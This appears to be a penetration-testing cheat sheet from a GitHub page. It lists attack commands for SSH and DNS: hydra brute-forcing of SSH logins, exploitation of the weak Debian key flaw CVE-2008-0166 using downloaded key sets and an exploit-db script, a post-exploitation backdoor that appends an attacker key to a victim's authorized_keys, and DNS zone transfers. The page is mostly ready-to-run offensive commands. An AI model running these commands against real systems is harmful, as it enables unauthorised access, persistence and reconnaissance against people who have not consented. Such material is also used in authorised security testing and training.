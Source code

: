 
## SSH - 22

### Brute force

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

### CVE-2008-0166

```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

### SSH backdoor - post exploitation

```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

---

## DNS - 53

### Zone transfer

```
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```
